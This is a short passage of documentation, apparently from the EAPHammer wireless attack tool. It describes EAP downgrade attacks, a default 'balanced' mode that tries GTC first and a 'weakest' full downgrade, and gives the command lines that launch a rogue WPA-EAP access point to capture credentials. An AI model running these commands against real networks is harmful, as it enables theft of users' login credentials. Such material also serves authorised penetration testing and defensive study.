 ## Balanced approach (default)

EAPHammer's default bevahior is to suggest the following sequences of EAP methods during EAP negotiation:

	# Phase 1 (outer authentication)
	PEAP,TTLS,TLS,FAST

	# Phase 2  (inner authentication)
	GTC,MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,TTLS-PAP,TTLS-MSCHAP,MD5

EAPHammer first attempts a GTC downgrade attack, and then immediately falls back to stronger EAP methods if the attempt fails. This balanced approach is designed to maximize impact while minimizing the risk of protracted EAP negotiations. 

To execute this attack, run EAPHammer with the `--negotiate balanced` flag:

```bash
./eaphammer --interface wlan0 \
	--negotiate balanced \
	--auth wpa-eap \
	--essid example \
	--creds
```

Alternatively, just omit the `--negotiate` flag altogether:

```bash
./eaphammer --interface wlan0 \
	--auth wpa-eap \
	--essid example \
	--creds
```

## Full EAP downgrade (weakest to strongest)

Should you want to perform a full EAP downgrade attack, you can do so using the `--negotiate weakest` flag:

```bash
./eaphammer --interface wlan0 \
	--negotiate weakest \
	--auth wpa-eap \
	--essid example \
	--creds
```

This will instruct EAPHammer to suggest the following sequences of EAP methods during EAP negotiation:

	# Phase 1 (outer authentication)
	PEAP,TTLS,TLS,FAST
